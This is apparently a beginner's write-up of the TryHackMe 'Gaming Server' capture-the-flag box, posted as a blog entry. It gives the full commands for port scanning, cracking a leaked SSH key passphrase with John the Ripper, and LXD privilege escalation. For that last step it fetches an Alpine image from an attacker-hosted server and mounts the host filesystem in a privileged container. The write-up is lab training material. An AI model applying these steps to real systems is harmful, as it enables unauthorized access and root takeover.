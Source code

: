 ```yaml
---
layout: post
title: Gaming Server writeup
subtitle: An Easy Boot2Root box for beginners
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/gs/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, gamingserver,lxd]
---
```


Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.


## Here is a machine information

| Title | Gamingserver | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 120 |
| Maker | Suitguy |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## RUST SCAN and Enumeration
Normally, i will use the rustscan as scan the host and gathering machine information


``` rustscan -b 500 machine-ip ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]
</em>

It will take few time to scan: 

![gs1](/assets/img/gs/gs1.png)

We got 2 open ports. One port 22 is ssh port  and web server port is 80. After try to google some issue relate to shh version. There is no more thing interesting. 

In port 80, i go throung all the tag in the page. In *about.html*, when i click on the button uploads, the server redirect to */uploads*.

![gs1](/assets/img/gs/gs2.png)

There is 3 files. one is dict.list. I guess we can use it to cracking or brute-force somewhere. Just take all the file by download it.

But the interesting thing that i change the extention to .php. The page turn on the upload function.

![gs1](/assets/img/gs/gs3.png)

I looked source page. The Server accepts php file. 

![gs1](/assets/img/gs/gs4.png)

Yeah, i try to upload php reverse shell via upload function. But i have no luck to upload this file. The server may error during upload even upload normal image. I have no clue now. 

I go back to gathering again by running dirsearch. you can get it here: https://github.com/maurosoria/dirsearch

After the dirsearch is done, i got another quite interesting enpoint which is *secret/*. Access to this enpoint, we got the secret key, 

![gs1](/assets/img/gs/gs5.png)

I download the secretKey file and login to machine via ssh. But i don't know what is exact an username in the machine. I get back to main page for trying to find the username. Fortunately, in the source of main page. i got this comment line:

``` <!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->```

Then i use john as the username.

``` ssh -i secretKey john@10.10.36.188 ```

But it requires passphrase. 

![gs1](/assets/img/gs/gs6.png)

Now let use the *dict.lst* file to crack passphrase.

I just google how to crack the passphrase of private key. i got this: [cracking private key password](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/)

We will use *john* to crack the password. 

Firstly, we need to convert from ssh private key to john: 

``` /usr/share/john/ssh2john.py secretKey > hash  ```

Final, run john with *dict.lst* to crack the password.

![gs1](/assets/img/gs/gs7.png)

Now access to machine with this password. 

![gs1](/assets/img/gs/gs8.png)


Yeah, we got flag!!!

## Escalation privilege

When check id of user. The user have a lot group.

```uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd) ```

lxd group is a bit weird. I try to google what it is. I got this [Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/). In this article, write down very detail. You can check out it. Let's go for the exploit part.

In order to take escalate the root privilege of the host machine you have to create an image for lxd thus you need to perform the following the action:

1.  Steps to be performed on the attacker machine:
- Download build-alpine in your local machine through the git repository.
- Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
- Transfer the tar file to the host machine
2. Steps to be performed on the host machine:
- Download the alpine image
- Import image for lxd
- Initialize the image inside a new container.
- Mount the container inside the /root directory

Download and build:

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

On running the above command, alpine-v3.12-x86_64-20200903_0332.tar.gz  file is created in the working directory that we have transferred to the host machine.

```
python3 -m http.server 8080
```

On another hand we will download the alpine-image inside on the host machine.

```
wget http://10.11.*.*:8080/alpine-v3.12-x86_64-20200903_0332.tar.gz .
```

After the image is built it can be added as an image to LXD as follows:

```
lxc image import ./alpine-v3.12-x86_64-20200903_0332.tar.gz  --alias myimage
```

use the list command to check the list of images

```
lxc image list
```

![gs1](/assets/img/gs/gs9.png)

On the host machine: run cmd following:

```

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id

```

![gs1](/assets/img/gs/gs10.png)

Final, in order to find the root flag. 

```
find / -name "root.txt" 2>/dev/null
```

Yeah we got the root flag!!!

![gs1](/assets/img/gs/gs11.png)

SOlVED!!!
